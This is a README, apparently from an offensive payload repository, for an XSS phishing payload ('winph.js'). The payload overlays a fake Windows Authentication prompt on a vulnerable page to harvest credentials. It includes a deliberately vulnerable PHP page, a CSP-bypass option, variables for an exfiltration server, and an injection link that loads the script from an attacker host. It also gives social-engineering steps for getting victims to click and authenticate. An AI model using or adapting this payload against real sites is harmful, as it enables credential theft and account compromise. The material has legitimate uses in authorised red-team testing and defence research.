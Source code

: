 # [Phish] Windows Authentication Prompt

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays the dreaded Windows Authentication prompt popup window. The overlay creates the illusion that the operating system spawned the prompt. Once they encounter such an authentication prompt, most users have a (proven) tendency to blindly provide it credentials (which results with a high success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web application which uses Windows Authentication (e.g. Outlook Web Access) without 2FA
* internal network perspective (LAN)
  * Windows Active Directory environments (**NOTE**: no web application requirements)

The payload (`winph.js`) supports options:

* no CSP bypass - issue AJAX request

  ```
  ...
  var bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`)

  ```
  ...
  var bypassCSP = true;
  ...
  ```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.15/rxss.php?q=<script src=http://192.168.5.15/winph.js></script>
    ```

    * **NOTES**:
      * `192.168.5.15` - target site
      * `192.168.5.15` - web server hosting payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)

* [web browser rendering] Mozilla FireFox

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

* [web browser rendering] Google Chrome

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

* [web browser rendering] Microsoft Edge

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

